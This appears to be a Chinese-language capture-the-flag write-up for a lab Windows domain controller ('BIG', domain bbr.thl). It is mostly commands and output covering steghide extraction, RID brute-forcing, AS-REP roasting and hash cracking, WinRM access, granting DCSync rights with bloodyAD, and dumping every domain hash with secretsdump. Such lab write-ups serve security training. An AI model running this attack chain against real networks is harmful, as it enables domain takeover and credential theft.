

## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Hard |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 192.168.212.4 -sV -A -p-

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-05 23:20:54Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: bbr.thl, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: bbr.thl, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  msrpc         Microsoft Windows RPC
57043/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 08:00:27:29:23:16 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Microsoft Windows 2016
OS CPE: cpe:/o:microsoft:windows_server_2016
OS details: Microsoft Windows Server 2016 build 10586 - 14393
Network Distance: 1 hop
Service Info: Host: BIG; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 15h54m38s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_nbstat: NetBIOS name: BIG, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:29:23:16 (Oracle VirtualBox virtual NIC)
| smb2-time: 
|   date: 2025-04-05T23:21:49
|_  start_date: 2025-04-05T19:55:29
```

将**bbr.thl**添加到**/etc/hosts**

## Gobuster

```
[root@kali] /home/kali  
❯ gobuster dir -u http://192.168.212.4/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.212.4/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 151] [--> http://192.168.212.4/images/]
/Images               (Status: 301) [Size: 151] [--> http://192.168.212.4/Images/]
/contents             (Status: 301) [Size: 153] [--> http://192.168.212.4/contents/]
/IMAGES               (Status: 301) [Size: 151] [--> http://192.168.212.4/IMAGES/]
/songs                (Status: 301) [Size: 150] [--> http://192.168.212.4/songs/]
/Contents             (Status: 301) [Size: 153] [--> http://192.168.212.4/Contents/]
/Songs                (Status: 301) [Size: 150] [--> http://192.168.212.4/Songs/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

## StegHide

**/Contents/notify.txt**的内容如下

```
Who the hell did you hire to create the website!
Hiding keys in MD5 again!
I'm going to fire that guy

music
```

**/Songs/Skyisthelimit.txt**是一个密码列表

然后**/Images/big2.jpg**这个图片可以进行分离

这里直接查看WP吧，发现密码不在密码列表里，而是在主页的一段文字

```
<!DOCTYPE html>
<html>
<head>
    <style>
        /* It was all a dream */
        body {
            background-image: url('big1.jpg'); 
            background-size: cover; 
            background-repeat: no-repeat; 
            background-attachment: fixed;
            background-position: center; 
        }
    </style>
</head>
<body>

    <h1>Music</h1>
    <p>I keep it music music, I eat that lunch (Yeah)</p>

</body>
</html>
```

将其转为**MD5**

```
[root@kali] /home/kali/BIG  
❯ echo -n "It was all a dream"| md5sum                                                                 
99ae77c0c0faf78b872f9f452e3eaa24  -
```

分离图片

```
[root@kali] /home/kali/BIG  
❯ steghide extract -sf big2.jpg                                                                                                                           ⏎
Enter passphrase: 
wrote extracted data to "frase.txt".

[root@kali] /home/kali/BIG  
❯ ls
big2.jpg  frase.txt  

[root@kali] /home/kali/BIG  
❯ cat frase.txt                                                  
Bigpoppa1972
```

尝试登录



## Crackmapexec

进行用户枚举

```
[root@kali] /home/kali/BIG  
❯ crackmapexec smb bbr.thl -u music -p Bigpoppa1972 --rid-brute | grep "SidTypeUser"
SMB                      bbr.thl         445    BIG              500: bbr\Administrator (SidTypeUser)
SMB                      bbr.thl         445    BIG              501: bbr\Guest (SidTypeUser)
SMB                      bbr.thl         445    BIG              502: bbr\krbtgt (SidTypeUser)
SMB                      bbr.thl         445    BIG              503: bbr\DefaultAccount (SidTypeUser)
SMB                      bbr.thl         445    BIG              1000: bbr\BIG$ (SidTypeUser)
SMB                      bbr.thl         445    BIG              1103: bbr\Music (SidTypeUser)
SMB                      bbr.thl         445    BIG              1104: bbr\song (SidTypeUser)
```

## Bloodhound

```
[root@kali] /home/kali/BIG  
❯ bloodhound-python -u 'music' -p 'Bigpoppa1972' -d bbr.thl -ns 192.168.212.4 -c all --zip
INFO: Found AD domain: bbr.thl
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (BIG.bbr.thl:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: BIG.bbr.thl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: BIG.bbr.thl
INFO: Found 7 users
INFO: Found 57 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: BIG.bbr.thl
INFO: Done in 00M 00S
INFO: Compressing output into 20250406075042_bloodhound.zip
```

## GetNPUsers

筛查没有设置预认证的用户，是**SONG**用户


```
[root@kali] /home/kali/BIG  
❯ impacket-GetNPUsers -usersfile username.txt -no-pass -dc-ip "192.168.212.4" bbr.thl/        
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
$krb5asrep$23$song@BBR.THL:dac6809472a8f34ab3472d707cf28027$16400eda9e9d0ee4f860756727117bdb392e3fc599580f96a3dc387ded4f8b69ca509a054b470c9bce363f5fc189220b03df56c2ee1605708c4d2cbd337ba583f3b95bfe84879dcc626a2cd642472bf5dc2f109527e122c08ae250f9ef788d50bcf0e6242ec4c1145bedddf4ac5f95bd422e553ac9cc4bedb62835fb7580b82c2bc4c5449d2027513efbcfe08fc4c7cc18195f966e9e8627193db30b611021994e6c0cc8aca25a78fcdffdaf30791db06c87c21dee1692c405aefb2214fd40100b37d74f012e6b62fa981a4331e65a82194a264991e0656dd6d66f697505865006fc
```

这里的字典要使用网站提供的

```
[root@kali] /home/kali/BIG  
❯ john hash.txt --wordlist=password                         
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Passwordsave@    ($krb5asrep$23$song@BBR.THL)     
1g 0:00:00:00 DONE (2025-04-06 07:57) 100.0g/s 20100p/s 20100c/s 20100C/s 123456..qwerty123456
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

通过**winrm**登录**song**用户

```
[root@kali] /home/kali/BIG  
❯ evil-winrm -i bbr.thl -u song -p 'Passwordsave@'       
```

## SeBackupPrivilege

查看一下权限，参考[HTB-Cicada - HYH](https://www.hyhforever.top/hackthebox-cicada/)

```
*Evil-WinRM* PS C:\Users> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```


```
[root@kali] /home/kali/BIG  
❯ impacket-secretsdump -sam SAM -system SYSTEM LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xbb33617256ea48219d9d3d01766b7a9e
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb1c50a48c37e053d2045cd5b55cd2f2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up... 
```

这个不能直接用于登录

## DCsync

- [DCSync | The Hacker Recipes](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync#dcsync)

再次进行分析，发现可以修改到域控的**ACL**


首先将**song**添加到**SPECIAL PERMISSIONS**组

```
[root@kali] /home/kali/BIG  
❯ bloodyAD --host "192.168.212.4" -d "bbr.thl" -u "song" -p "Passwordsave@" add groupMember 'SPECIAL PERMISSIONS' song                                                                                        ⏎
[+] song added to SPECIAL PERMISSIONS
```

添加一个**DCsync**的权限

```
[root@kali] /home/kali/BIG  
❯ bloodyAD --host "192.168.212.4" -d "bbr.thl" -u "song" -p "Passwordsave@" add dcsync song                                                                                                                   ⏎
[+] song is now able to DCSync
```

再次读取**hash**

```
[root@kali] /home/kali/BIG  
❯ impacket-secretsdump "bbr.thl/song:Passwordsave@"@192.168.212.4                                                                                                                                             ⏎
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5d48bcf84aea999fb1ade06970a81237:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a0b3723455bd8be604ae2e1df74db81b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
bbr.thl\Music:1103:aad3b435b51404eeaad3b435b51404ee:8ab1d3828490421d0dc1ddd6e2552d90:::
bbr.thl\song:1104:aad3b435b51404eeaad3b435b51404ee:5919764374e465e68f886ac0c4f75ab3:::
BIG$:1000:aad3b435b51404eeaad3b435b51404ee:7811e608bfec3a56f807ddd9dfdb21f9:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:e3f894ddb7f81e6b2cf2f0c59fc80e6754c65dd3b92bb2d0d3e8d633a7fbfbdf
Administrator:aes128-cts-hmac-sha1-96:b095f30c1921e1d730b28984573c761c
Administrator:des-cbc-md5:c8839bce494537d0
krbtgt:aes256-cts-hmac-sha1-96:f380684e6a965bbc18ee8727d8326c00b75a13069df78ca8718db459542b975c
krbtgt:aes128-cts-hmac-sha1-96:946eece70daaa80ce8ad63bfc3972467
krbtgt:des-cbc-md5:c8d020da3b51a8bf
bbr.thl\Music:aes256-cts-hmac-sha1-96:d5fd1078b0b49b57a20512e8709792103766121e43115456191cc23a083af099
bbr.thl\Music:aes128-cts-hmac-sha1-96:27c2250ad5385ae08ce98af7894a2a9a
bbr.thl\Music:des-cbc-md5:d3bfabf49eef37d6
bbr.thl\song:aes256-cts-hmac-sha1-96:ae6f0ada27e369f5bf95309eb44dcad3bd26a8fc6017f0a0344f814ff36ae26e
bbr.thl\song:aes128-cts-hmac-sha1-96:e3ac1564472d51084bd95307279ac988
bbr.thl\song:des-cbc-md5:ef52f8df7a9dfeef
BIG$:aes256-cts-hmac-sha1-96:b288ac848e2ba1b1e068cff6bdb950fb5ef336e4f44717aabd3b9a02eb21901d
BIG$:aes128-cts-hmac-sha1-96:99b71046382eea69198aa3b44db56837
BIG$:des-cbc-md5:c7fb8c25297f945d
[*] Cleaning up... 
```

这次就登录上了


## Summary

`User`：根据网页提示，提取图片得到**music**密码，进行域内分析，发现存在**Kerberos**未开启预认证的用户，得到**song**用户。

`Administrator`：根据**Song**用户的权限，进行**DCsync**攻击。
